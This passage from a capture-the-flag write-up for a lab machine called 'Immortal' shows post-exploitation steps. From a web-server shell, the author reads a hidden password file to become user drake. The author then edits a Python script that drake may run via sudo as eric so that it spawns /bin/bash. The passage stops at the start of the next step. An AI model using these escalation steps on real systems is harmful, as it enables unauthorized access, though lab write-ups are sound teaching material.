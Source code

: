 # 07. Gaining shell acces
```bash
www-data@Immortal:/var/www/html/longlife17/chat$ cd /home/
www-data@Immortal:/home$ find .
# .
# ./david
# find: './david': Permission denied
# ./drake
# ./drake/...
# ./drake/.../pass.txt
# ./drake/.bash_history
# ./drake/.bashrc
# ./drake/.local
# ./drake/.local/share
# find: './drake/.local/share': Permission denied
# ./drake/.bash_logout
# ./drake/.profile
# ./drake/user.txt
# ./eric
# ./eric/.note.txt
# ./eric/.bashrc
# ./eric/.local
# ./eric/.local/share
# find: './eric/.local/share': Permission denied
# ./eric/.bash_logout
# ./eric/.profile

```
## 01. User drake
```bash
cat ./drake/.../pass.txt
...
su - drake
```
```bash
sudo -l
# Matching Defaults entries for drake on Immortal:
#     env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

# User drake may run the following commands on Immortal:
#     (eric) NOPASSWD: /usr/bin/python3 /opt/immortal.py
```
Edit /opt/immortal.py
{: .text-justify}
```python
import os;
a = input(str("Do you want to be immortal: "))

if a.lower() == "yes" or a.lower() == "no":
   print("Bad answer")
   os.system("/bin/bash")
else:
   print("Are you sure?")
```
Run it:
{: .text-justify}
```bash
sudo -u eric /usr/bin/python3 /opt/immortal.py
```
## 02. User eric
Start the script: